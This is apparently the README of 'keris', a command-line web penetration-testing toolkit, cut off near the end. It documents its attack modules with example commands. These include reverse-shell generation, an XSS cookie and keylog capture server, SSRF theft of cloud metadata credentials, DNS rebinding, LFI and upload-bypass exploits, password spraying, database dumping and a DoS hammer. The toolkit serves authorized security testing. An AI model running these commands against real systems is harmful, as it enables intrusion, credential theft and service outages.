# keris

`keris` is a black-box web pentest toolkit that lives in your terminal. Give it
one URL and it runs the whole job (recon, discovery, vulnerability scanning,
and a report) in a single command. It was born from real testing against
production sites (Next.js/Vercel, PHP/LiteSpeed, React SPAs), so the defaults
are polite: it doesn't hammer targets and it learns to back off when the server
starts rate-limiting you.

```
    /\
   /  \
  / /\ \
 / /  \ \
 \ \__/ /
  \____/
     ||
```

> "Keris" is a Javanese dagger. Small, sharp, and it does exactly one job:
> find out whether something can be pierced. If it can't, fine. Either way,
> the evidence lands in the report.

<p align="center">
  
</p>

## ⚠️ Warning: active attack features

Keris can run **active attacks**: auto-exploitation, brute-force with extended
wordlists, credential validation against a live login, credential hunting
(`.git` dumps, leaked keys), CVE probes, and a **multi-vector DoS hammer**
(slowloris + slow POST + flood simultaneously).

- **For authorized testing only.** Point this only at systems you own or are
  explicitly hired and permitted to test.
- **Written authorization from the target owner is mandatory.** Attacking a
  system without permission is illegal in almost every jurisdiction.
- A red warning banner is printed before every aggressive mode (`--pwn`,
  `--exploit`, `--brute-extended`, `dos --hammer`, `hunt --verify`,
  `credcheck`, `exploit`, `shell`, `pivot`, `rebind`, `gitdump`,
  `authbypass`, `spray`, `dbdump`, `cloud`, `xsshook`, `k8s`, `crack`,
  `scan --pivot-auto`, `agent`, `farm worker`, `enterprise`). It
  is a reminder that all risk stays with you.
- Never use this for cybercrime. Legality and responsibility sit with the
  operator, not the tool.

[](https://pypi.org/project/keris-toolkit)
[](https://github.com/dexpie/keris/actions/workflows/ci.yml)
[](https://www.python.org)
[](LICENSE)

## Quick start

```bash
pip install keris-toolkit

# Full scan: recon + discovery + vulnerabilities + Markdown report
keris scan https://example.com -o report.md

# Same scan, JSON (for CI) + HTML
keris scan https://example.com -o report.md \
    --json-output report.json --html report.html

# SARIF 2.1.0 (GitHub Code Scanning) + filter temuan ber-confidence rendah
keris scan https://example.com -o report.md \
    --sarif-output scan.sarif --min-confidence 0.4

# Template / rule engine (YAML pack bawaan: .env, .git, backup, actuator, dll)
keris scan https://example.com -o report.md --templates
```

Setiap temuan kini membawa **Standard Finding Schema v1.0.0** (`finding_schema`
di JSON, `id` deterministik, `cwe`, `source`) plus **confidence score** (0..1)
dari Confidence engine: skor tinggi untuk bukti langsung (browser, exploit,
git dump), rendah untuk sinyal heuristik, lengkap dengan daftar temuan yang
butuh verifikasi manual di laporan.

Template engine (v0.13.0) menambah deteksi deklaratif berakurasi tinggi:
template YAML (mirip Nuclei, ringan) dengan matchers `status`/`word`/`regex`
dan kondisi AND/OR. Temuan hanya lahir bila **semua** matcher terpenuhi, jadi
false positive rendah. Pack bawaan di `keris/data/templates` (`.env` terekspos,
`.git/config`, backup/dump database, phpinfo, Spring Actuator, directory
listing, Swagger), tambahkan `--templates-dir` untuk pack kustom.

Try it in 30 seconds against a demo server that is deliberately full of holes:

```bash
python tests/demo_vuln_server.py        # 127.0.0.1:8099, intentionally vulnerable
keris scan http://127.0.0.1:8099 -o demo.md --hidden-endpoints
```

## Also has a web UI

`serve` starts a local glassmorphism-styled page at `http://127.0.0.1:8181`.
Paste a link, hit Scan. The scan runs in the background, progress and logs
stream into the browser, and you can download the finished report as Markdown /
HTML / PDF / JSON.

```bash
python -m keris serve
```

<p align="center">
  
</p>

Two buttons worth knowing:

- **CARIKRITIKAL**: turns on every module plus the authorized active attacks
  at once, then filters results down to CRITICAL/HIGH only.
- **Uji DoS**: an app-layer resilience test (slowloris / slow POST / measured
  flood) with caps on duration and request count. It requires an explicit
  written-permission checkbox.

One scan at a time, with a stop button. The UI stays bound to `127.0.0.1`;
never expose it publicly.

<p align="center">
  
</p>

## Commands

46+ subcommands. The ones you'll reach for most:

| Command | What it does |
|---|---|
| `scan` | Full pipeline: recon + discovery + vuln scan + report |
| `recon` / `passive` | DNS, security headers, stack detection; passive = crt.sh + whois without touching the target |
| `discover` / `hidden` / `params` | API endpoint extraction, directory/subdomain brute, admin/`.env`/backup hunting, hidden parameters |
| `fuzz` / `openapi` | Lightweight parameter fuzzing; import a Swagger spec and fuzz its endpoints |
| `jwt` / `ports` / `tls` / `dns` / `buckets` / `waf` | JWT analysis, TCP port scan, TLS checks, email security (SPF/DMARC/DKIM), public S3/GCS buckets, WAF fingerprinting |
| `wayback` / `subdomain` | Wayback CDX historical URL mining; subdomain enumeration (crt.sh + brute + wildcard DNS detection) |
| `crawl` / `graphql` / `smuggling` / `takeover` | Attack-surface map, GraphQL testing, request smuggling, subdomain takeover |
| `cachepoison` / `hostheader` / `websocket` | Web cache poisoning, host header injection (incl. password-reset poisoning), WebSocket auth & Origin checks |
| `jsanalysis` / `sensitive` | DOM XSS sinks + secrets in JS bundles; leaked credentials/PII/cards in responses |
| `bruteforce` / `platforms` | Weak login (form/basic), platform-specific checks (WordPress, Laravel, ...) |
| `project` | Self-audit of a local codebase; JSON output friendly to AI coding agents |
| `retest` | Diff an old scan against a new one to track remediation progress |
| `export` / `dashboard` | Findings to curl/Burp XML sessions; merge JSON reports into one HTML dashboard |
| `dos` | App-layer resilience test (authorized only, `--yes` required) |
| `serve` | Local web UI |
| `watch` | Continuous monitoring: scheduled scans + diff + webhook alerts |
| `tui` | Interactive terminal UI with a live progress dashboard |
| `hunt` | Credential hunting: `.git` dump, `.env`/backup files, cloud secrets |
| `credcheck` | Prove leaked credentials actually log in (authorized only) |
| `exploit` | Exploit kit: SQLi data dump, LFI/RFI, upload bypass, XXE, RCE confirm (authorized only) |
| `shell` | Reverse-shell payload generator (bash/python/powershell + URL/base64 variants) + read-only RCE proof (authorized only) |
| `pivot` | SOCKS5 proxy pivoting through a confirmed SSRF endpoint (authorized + `--yes` only) |
| `rebind` | DNS rebinding server to bypass SSRF allowlists (authorized + `--yes` only) |
| `gitdump` | Full `.git` dump: download objects + rebuild source code from a public repo (authorized only) |
| `authbypass` | Access-control bypass tests: verb tampering, path normalization, role-param pollution, header spoofing (authorized only) |
| `spray` | Anti-lockout password spraying: one password per account with delay + proxy rotation (authorized only) |
| `dbdump` | Full database dump from a confirmed UNION-based SQLi: tables, rows, schema (authorized only) |
| `cloud` | Cloud takeover checks: live AWS key verification, dangling S3 buckets, GCP service accounts, Azure tenants (authorized only) |
| `xsshook` | XSS hook server (cookie/keylog/DOM capture) to prove impact of a stored XSS (authorized + `--yes` only) |
| `k8s` | Kubernetes API enumeration & access test: direct or pivoted through an SSRF (authorized only) |
| `crack` | Offline hash cracking: MD5/SHA1/SHA256/NTLM/MD5-Crypt via wordlist or short brute (authorized only) |
| `plugins` / `init` | Your own custom checks; generate an example `keris.json` |
| `scan --templates` | Template/rule engine: YAML detections (`.env`, `.git`, backups, phpinfo, Actuator, directory listing, Swagger) with AND/OR matchers |
| `scan --pivot-auto` | After an SSRF/RCE is found, auto-pivot: detect internal interfaces, scan the internal network, try default creds (socks5/ssh/chisel; authorized only) |
| `agent` | AI pentesting agent: plan + execute a goal step-by-step, with checkpoint/resume and a full Markdown report |
| `farm` | Distributed scanning cluster: master/worker nodes share scan jobs over HTTP (register, claim, submit, unified report) |
| `enterprise` | `keris-enterprise`: REST API + RBAC users, projects, cron scheduler, alerting (Slack/Teams/email + escalation), DefectDojo/GitHub/GitLab/Splunk integrations, and a web dashboard |

Every full scan includes by default: SQLi, XSS, SSRF, IDOR, rate-limit,
directory listing, auth bypass, CORS, open redirect, cookie flags, TLS,
security.txt, plus cache poisoning / host header / WebSocket / JS analysis /
sensitive data / hidden endpoints / fuzz modules. Each report also carries a
**risk score A-F** computed from the finding mix.

## Advanced modules

### Attack chains (`--chain`)

A correlation engine that combines low/medium findings into critical chains,
the way a human pentester would reason about them:

```bash
keris scan https://example.com --chain
```

Examples it detects:

- **Cache poisoning + reflected XSS** → CRITICAL (reflected XSS that can be
  injected via a cacheable header becomes stored XSS for every visitor).
- **Host header injection + password reset** → HIGH (password-reset poisoning).
- **Auth bypass + sensitive endpoint** → CRITICAL.
- **Weak login + admin panel** → CRITICAL (direct takeover).
- **Directory listing + backup file** → HIGH.
- **CORS wildcard + auth cookie** → HIGH.

Chained findings carry a `"chain"` marker and `"source": "correlation"` in the
JSON output, so they're easy to tell apart from raw findings. The Markdown and
HTML reports render them as a visual **Attack Paths** section.

### Automatic pivoting (`--pivot-auto`)

When a scan confirms an SSRF (or command execution) finding, Keris can pivot
into the internal network by itself:

```bash
keris scan https://example.com --pivot-auto --authorized
# optional: --internal-scan-depth 2 --pivot-method socks5|ssh|chisel
```

1. Detects the target's internal network interfaces and CIDR ranges.
2. Scans the internal network for reachable hosts and services.
3. Tries default credentials on any admin panels/services it finds.
4. Keeps the SOCKS5 proxy alive so you can continue through the tunnel.

`--pivot-auto` is gated behind `--authorized` and shows the warning banner.

### AI pentesting agent (`agent`)

An autonomous agent that plans and executes a security goal step by step,
keeping full state so it can resume later:

```bash
keris agent "Get a shell on the server" https://example.com --authorized --verbose
keris agent --goal "..." --resume              # continue from a checkpoint
```

- Planner is LLM-driven (`KERIS_LLM_API_KEY`, OpenAI-compatible) with a
  rule-based fallback when no key is set.
- Writes `agent-report.md` (full log of every step) and `agent-state.json`
  (checkpoint for resume).
- Without `--authorized` the agent only runs non-destructive steps.

### Distributed scanning farm (`farm`)

Scale scans across machines: a master node hands out targets to worker nodes
over a small HTTP protocol:

```bash
keris farm master --port 8080                     # coordinator
keris farm worker --master http://localhost:8080 --capacity 3   # on each box
keris farm submit --targets targets.txt           # enqueue jobs
keris farm status                                 # live queue/report
```

- Workers register, claim jobs, run `keris scan`, and submit results back.
- The master aggregates a single `farm-report.md` and reassigns jobs from
  failed workers automatically.
- Auth via HMAC-signed tokens (`KERIS_FARM_SECRET` or `farm-secret.txt`).

### Enterprise suite (`enterprise`)

`keris-enterprise` layers a management plane over the scanner: users with
roles, projects, scheduled scanning, alerting, and third-party integrations:

```bash
keris enterprise setup --admin-email admin@company.com
keris enterprise start --port 9000 --authorized   # REST API + scheduler + dashboard
keris enterprise status
# or: python -m keris_enterprise start
```

- **REST API**: login, users (admin/pentester/viewer RBAC), projects, on-demand
  scans, scan history, remediation tracking, dashboard, scheduler control.
- **Scheduler**: per-project cron schedule (`daily`, `weekly`, `*/5m`, ...)
  runs scans automatically and stores results.
- **Alerts**: Slack, Microsoft Teams, SMTP email, generic webhook; escalation
  level rises when CRITICAL findings repeat.
- **Integrations**: DefectDojo import, Splunk HEC / ELK log forwarding,
  GitHub / GitLab auto-tickets.
- **Web UI**: self-contained HTML dashboard with risk trend, attack path
  visualization, and remediation progress. Zero runtime deps (stdlib only).

### Smart wordlists (per-stack)

Directory brute-force detects the target's technology stack from recon headers
(WordPress, Laravel, Django, Node/Express, Java/Spring) and automatically merges
the matching extra wordlist, so it probes framework-specific paths like
`/wp-json/wp/v2/users`, `/storage/logs/laravel.log`, `/actuator/env` or
`/api/auth/__nextjs_original-stack-frame`, no manual wordlist switching.

### AI triage + executive summary (`--triage`)

An LLM (or a rule-based fallback) reviews your findings, flags false positives,
and writes an executive summary for the report:

```bash
export KERIS_LLM_API_KEY=sk-...            # any OpenAI-compatible endpoint
keris scan https://example.com --triage
```

- Without a key, a local heuristic still demotes demo/test artifacts and keeps
  the executive summary.
- With a key (or `KERIS_LLM_BASE_URL` for a self-hosted endpoint), CRITICAL and
  HIGH findings are reviewed by the model; verdicts are written back as a
  `triage` object on each finding.
- The executive summary is embedded in the JSON report as
  `executive_summary` and flows into the Markdown report.

### Headless browser (`--browser`)

Renders JS-heavy targets with Playwright and looks at the *real* DOM, not the
raw HTML:

```bash
pip install playwright && python -m playwright install chromium
keris scan https://example.com --browser --screenshot evidence.png
```

- Runs the page, waits for `networkidle`, scans the rendered DOM for DOM XSS
  sinks (`innerHTML`, `eval`, `document.write`, ...) and leaked secrets.
- `--screenshot` captures full-page evidence.
- Reuses your `--login-username` / `--login-password` to run the pass while
  authenticated.
- Gracefully skips with a hint if Playwright isn't installed, the rest of the
  toolkit keeps working.

### Auto-ticketing (`--ticket`)

Turn findings into GitHub Issues or Jira tickets automatically:

```bash
# GitHub
export GITHUB_TOKEN=ghp_... KERIS_GITHUB_REPO=your/repo
keris scan https://example.com --ticket github

# Jira
export JIRA_BASE_URL=https://your.atlassian.net JIRA_EMAIL=you@x.com \
       JIRA_API_TOKEN=... JIRA_PROJECT=SEC
keris scan https://example.com --ticket jira --ticket-project SEC
```

One ticket per finding at or above `--ticket-min` (default `HIGH`), each with
severity, endpoint, evidence, and an auto-generated remediation suggestion.
Triage-demoted findings are skipped. You can also configure these in
`keris.json` under `github` / `jira` blocks.

### Continuous monitoring (`watch`)

Schedule repeated scans, diff each one against the previous run, and alert when
new CRITICAL/HIGH findings appear:

```bash
keris watch https://example.com --interval 3600 --webhook <slack-url>
```

- State is kept in `--state-dir` (default `.keris-watch/`): `latest.json` and
  `previous.json`.
- Per cycle it reports new / fixed / persisting counts, plus a
  `alertable_new` figure for severity above `--min-severity`.
- Alerts go to Slack / Discord / Telegram webhooks.
- Perfect under cron: `0 */6 * * * keris watch https://app.example.com --interval 3600`.
- Exit code 1 when a cycle found alertable findings, usable as a CI check.

### Interactive TUI (`tui`)

A terminal dashboard that streams the scan live: progress bar, current stage,
and the latest log lines, with no extra dependencies (pure ANSI, works on
Windows Terminal too):

```bash
keris tui https://example.com
```

### Credential hunting (`hunt`)

Hunts the way an attacker would harvest credentials, and can be wired into any
full scan with `--hunt`:

```bash
keris hunt https://example.com --json-output hunt.json
keris scan https://example.com --hunt
```

What it checks:

- **`.git` exposure**: probes `/.git/HEAD`, `/.git/config`, `/.git/index`, and
  parses the git index binary to reconstruct the file layout (filename
  disclosure). A dumpable `.git` means the whole source tree may be recoverable
  offline, flagged CRITICAL. `/.git/config` leaks the remote repo URL.
- **Config & backup files**: `.env`, `.env.*`, `wp-config.php`, `config.*`,
  `*.bak`, `dump.sql`, and ~25 more, with a secret check on the contents.
- **Cloud & app secrets**: AWS access keys, Google API keys / OAuth client
  secrets, GitHub and Slack tokens, OpenAI keys, plus generic password / API
  key patterns across pages and JS bundles.
- **`--verify`**: sends a single metadata request to AWS
  (`GetAccessKeyLastUsed`) to check whether a discovered AWS key is live.

Credentials are redacted in reports (`AKIA…MPLE`); full values never hit the
console or JSON output.

### DoS hammer (`--hammer`)

`dos` gains a heavy mode that runs slowloris + slow POST + flood
**simultaneously** (3× threads) with your chosen caps:

```bash
keris dos https://example.com --yes --hammer --concurrency 50 --duration 60
```

Same safety rails as normal DoS, `--yes` is mandatory and it never runs
against a target you don't have written permission to test. After the hammer it
checks whether the service still answers and reports a HIGH finding if not.

### One-flag everything (`--pwn`)

The full-attack switch. Turns on **every** module in one go: recon,
discovery, hunt, browser, correlation chains, triage, auto-exploit, brute-force
extended, and CVE probes:

```bash
keris scan https://example.com --pwn --authorized
```

`--pwn` refuses to run without `--authorized` and prints the red warning
banner. It is the maximum-effort pass: expect slow scans and a lot of noise,
but also a very complete picture.

### Credential validation (`credcheck`)

Takes credentials (from a hunt/brute scan, a file, or the CLI) and **actually
tries them against the target's login** to prove which ones work:

```bash
keris credcheck https://example.com --from-scan hunt.json --json-output creds.json
keris credcheck https://example.com --creds "admin:password123,root:toor"
keris credcheck https://example.com --creds-file creds.txt
```

Detects HTML login forms (auto-fills username/password, preserves CSRF hidden
fields) with a fallback to HTTP basic auth. Every confirmed credential is
reported as HIGH so the owner can reset it immediately. Authorized use only,
this is a live login attempt.

### Exploit kit (`exploit`)

Turns scanner signals into proven exploitation. Every check refuses to run
without `--authorized`:

```bash
keris exploit https://example.com --authorized                 # default: sqli,lfi,upload,xxe,rce
keris exploit https://example.com --authorized --types sqli --endpoint "/search?id=1"
keris exploit https://example.com --authorized --types xxe --callback https://collab.burp
keris exploit https://example.com --authorized --types lfi,rfi --callback https://interactsh
```

- **SQLi**: fingerprints the DB engine (MySQL/PostgreSQL/MSSQL/SQLite/Oracle)
  via error + boolean probes, counts UNION columns, then dumps db name, version
  and user through a reflected column.
- **LFI / path traversal**: `../../etc/passwd` (with 8 encoding bypasses),
  `php://filter` base64 extraction, and LFI→RCE via log poisoning
  (`/var/log/apache2/access.log` + injected PHP marker).
- **RFI**: loads your callback URL into the parameter; confirm the hit in your
  collaborator (`--callback`).
- **Upload bypass**: double extensions, null byte, case tricks, MIME swaps,
  GIF polyglot, `.htaccess`; then verifies the uploaded file actually
  **executes** (RCE proof).
- **XXE**: inline file read (`file:///etc/passwd`), PHP-wrapper base64, and
  blind OOB via external DTD (`--callback`).

### Reverse-shell helper (`shell`)

Generates cross-platform reverse-shell payloads (bash `/dev/tcp`, Python
socket, PowerShell) with URL/base64 encodings to dodge character filters, plus
a read-only RCE proof mode (`id`, `uname -a`) that avoids destructive commands:

```bash
keris shell --lhost YOUR_IP --lport 4444 --authorized
keris shell https://example.com --endpoint "/cgi?cmd=x" --authorized   # read-only RCE proof
```

### SOCKS5 pivot (`pivot`)

Turns a confirmed SSRF into a SOCKS5 proxy into the target's internal network
(HTTP pivoting through the vulnerable parameter, great for reaching internal
dashboards and admin panels):

```bash
keris pivot http://host/fetch?url=1 --ssrf-param url --authorized --yes
# lalu:
curl --socks5-hostname 127.0.0.1:1080 http://10.0.0.1/admin
```

Requires both `--authorized` **and** `--yes` (the proxy keeps running until
Ctrl+C).

### DNS rebinding (`rebind`)

Starts a tiny DNS server that answers the same hostname with a legit IP first
(to pass server-side allowlist validation) and your target IP on subsequent
queries, the classic SSRF/SOP bypass:

```bash
keris rebind --domain rebind.example.com --target-ip 169.254.169.254 --authorized --yes
# lalu suntikkan http://rebind.example.com/latest/meta-data/ ke parameter SSRF
```

Also requires `--authorized --yes` (a DNS server on port 53 needs privileges;
bind to 127.0.0.1 for local labs).

### `.git` dump & source recovery (`gitdump`)

When `/.git/` is publicly readable, downloads the index, then every blob
object (`/.git/objects/xx/rest`), decompresses them and reconstructs the
committed source tree, including secrets that were ever committed:

```bash
keris gitdump https://example.com --authorized --outdir ./source-dump
```

- Parses the git index (`DIRC` v2) to map blob SHA1s to file paths.
- Falls back to `/objects/pack/*.idx`+`*.pack` when loose objects are blocked.
- Writes recovered files under `./.gitdump-<host>/source/`.

### Auth bypass engine (`authbypass`)

Systematically probes access-control bypasses against protected endpoints:

```bash
keris authbypass https://example.com --endpoint /admin --authorized
```

- **Verb tampering**: `GET/POST/PUT/PATCH/OPTIONS/HEAD/TRACE` on the same URL.
- **Path normalization**: `//admin`, `/./admin`, `/admin/..;/admin`, trailing
  dot/semicolon/mixed-case variants.
- **Role-param pollution**: `?admin=true`, `?role=admin`, `X-Forwarded-For`,
  `X-Original-URL` header spoofing.

### Password spraying (`spray`)

Anti-lockout login guessing, one password per account with a delay, optional
proxy rotation, and automatic stop on rate-limit/lockout markers:

```bash
keris spray https://example.com --users a,b,c --passwords Spring2026! --authorized
keris spray https://example.com --users-file users.txt --proxy-file proxies.txt --spray-delay 1.5 --authorized
```

Detects form/basic/JSON login flows automatically (`--auth-type` to pin it).

### Full database dump (`dbdump`)

From a confirmed UNION-based SQLi, extracts the full schema and row data with
parallel workers and resumable checkpoints:

```bash
keris dbdump https://example.com --vuln-url "http://host/search?id=1" --vuln-param id --authorized
```

Auto-detects the DB engine and column count, enumerates tables, then dumps
each table's rows into `<outdir>/<table>.csv` (SQLite output reopens with
`sqlite3` for easy inspection).

### Cloud takeover (`cloud`)

Verifies leaked cloud credentials and finds dangling resources that can be
taken over:

```bash
keris cloud https://example.com --from-scan report.json --authorized
keris cloud https://example.com --bucket legacy-assets --authorized
```

- **AWS**: validates access keys against STS `GetCallerIdentity` (live check),
  flags expired/denied keys.
- **S3/GCS**: dangling bucket names (`NoSuchBucket` → subdomain takeover).
- **GCP / Azure**: identifies service-account emails and tenant IDs leaked in
  responses.

### XSS hook / C2 capture (`xsshook`)

Starts a capture server that stores the cookie, keylog, and DOM snapshot your
`hook.js` beacon sends back, turning a "reflected" XSS finding into proof of
impact:

```bash
keris xsshook --bind 0.0.0.0 --port 9999 --authorized --yes
# lalu:
#   <script src=http://YOUR_IP:9999/hook.js></script>
```

Needs `--authorized --yes` and keeps running until Ctrl+C. Sensitive
connection handlers return the **shell command to remove** the capture files;
never leave captured cookies on disk after a test.

### Kubernetes attack (`k8s`)

Enumerates a Kubernetes API server and tests anonymous access, directly, or
pivoted through a confirmed SSRF:

```bash
keris k8s https://k8s.example.com --authorized            # direct API
keris k8s https://app.example.com --ssrf-url "http://app/fetch?u=1" --ssrf-param u --authorized  # via SSRF
```

Checks `/version`, `/api/v1`, `/api/v1/namespaces`, RBAC via
`/apis/rbac.authorization.k8s.io` and flags any endpoint answering without
authentication.

### Hash cracking (`crack`)

Offline hash cracking with a built-in wordlist, custom wordlists, or short
brute-force (MD5/SHA1/SHA256/NTLM/MD5-Crypt; NTLM uses a pure-Python MD4 so it
works even where OpenSSL omits `md4`):

```bash
keris crack --hash 5f4dcc3b5aa765d61d8327deb882cf99 --authorized
keris crack --hashes-file hashes.txt --wordlist rockyou.txt --authorized
```

Pure local computation, no network traffic. Output is JSON-friendly for
feeding back into a report.

### SSRF detection & exploitation (`--ssrf` / `--ssrf-exploit`)

Proves SSRF **out-of-band**: keris spins up a local callback listener, injects
its URL into every discovered query parameter, and waits. If the server makes a
request back, SSRF is confirmed (CRITICAL), even when the response is
sanitized. Once confirmed, `--ssrf-exploit` weaponizes it:

- **Cloud metadata theft**: pulls AWS IAM credentials / GCP / Azure metadata
  through the vulnerable parameter (`169.254.169.254`, `metadata.google.internal`).
- **Internal port scan**: probes 15 common internal services on `localhost`
  (MySQL, PostgreSQL, Redis, MongoDB, Elasticsearch, Docker, Kubernetes, …)
  and reports which ones answer.

```bash
keris scan https://example.com --ssrf --ssrf-exploit
```

This is the classic cloud-metadata attack chain: a single SSRF on a cloud-hosted
app is enough to walk out with live IAM keys.

### WAF detection (`waf`)

Fingerprints the WAF in front of a target (Cloudflare, AWS WAF, Akamai,
ModSecurity, F5, Imperva, and more) by matching headers/cookies/challenge pages
and probing with common attack payloads:

```bash
keris waf https://example.com --json-output waf.json
keris scan https://example.com --waf
```

Useful before a pentest: know what filter you're up against, and whether the
target is already blocking payloads.

### JWT attack (`--jwt-attack`)

Takes any JWT found during the scan and attacks it (authorized only):

- **weak HMAC secret brute**: ~100 common secrets + suffix variants
- **alg=none**: forge a token with no signature
- **RS → HS confusion**: sign with the public key when detected
- **expired token replay**: replay an already-expired token

Every successful exploit is **proven** by sending the forged token to the
target and reporting the accepting endpoint.

```bash
keris scan https://example.com --authorized --jwt-attack
```

### Auto-auth chain (`--auth-chain`)

After logging in with valid credentials, scans the **post-login attack
surface**: `/dashboard`, `/admin`, `/account`, API endpoints, for broken
access control and leaked sensitive data:

```bash
keris scan https://example.com --authorized --auth-chain \
  --login-username admin --login-password password123
```

### Risk score (A-F)

Every report ends with a single-letter risk grade (`A` best → `F` critical)
computed from the severity mix, plus a 0 to 100 score and a plain-language
recommendation.

### Race condition / TOCTOU (`--race`)

Fires N identical requests in parallel at once-use endpoints (`/api/claim`,
`/api/coupon`, `/api/topup`, `/api/vote`, …) to detect double-apply bugs:

```bash
keris scan https://example.com --authorized --race
keris scan https://example.com --authorized --race --race-endpoints /api/coupon,/api/topup
```

### JS dependency CVE check (`--js-deps`)

Parses `package.json` / lockfiles and inline package metadata inside the JS
bundles the target serves, then matches versions against an offline CVE
database (`lodash`, `minimist`, `qs`, `axios`, `next`, `webpack`, …):

```bash
keris scan https://example.com --js-deps
```

### Favicon / tech fingerprint (`--favicon`)

Computes the Shodan-style mmh3 favicon hash and matches it against a database
of known product fingerprints (WordPress, GitLab, Jenkins, phpMyAdmin,
Grafana, …):

```bash
keris scan https://example.com --favicon
```

### Server/framework CVE (`--server-cve`)

Detects server & framework versions from HTTP banners (nginx, Apache, IIS,
PHP, OpenSSL, WordPress, Joomla, Drupal, Laravel, Tomcat, …) and matches
them against an offline CVE database:

```bash
keris scan https://example.com --server-cve
```

### Wayback URL mining (`--wayback` / `wayback`)

Mines historical URLs from the Wayback Machine CDX API (passive, never
touches the target) to rediscover deleted endpoints, admin pages, backup
files and hidden parameters:

```bash
keris wayback example.com --json-output wayback.json
keris scan https://example.com --wayback
```

### Subdomain enumeration (`subdomain`)

Combines crt.sh (certificate transparency), wordlist brute-force and
**wildcard DNS detection** so results aren't polluted by wildcard resolvers.
Pairs with the existing `takeover` module:

```bash
keris subdomain example.com --json-output subs.json
keris subdomain example.com --no-crt --wordlist my-subs.txt --workers 40
```

### Remediation plan

Every markdown report ends with a prioritized **remediation plan**: per
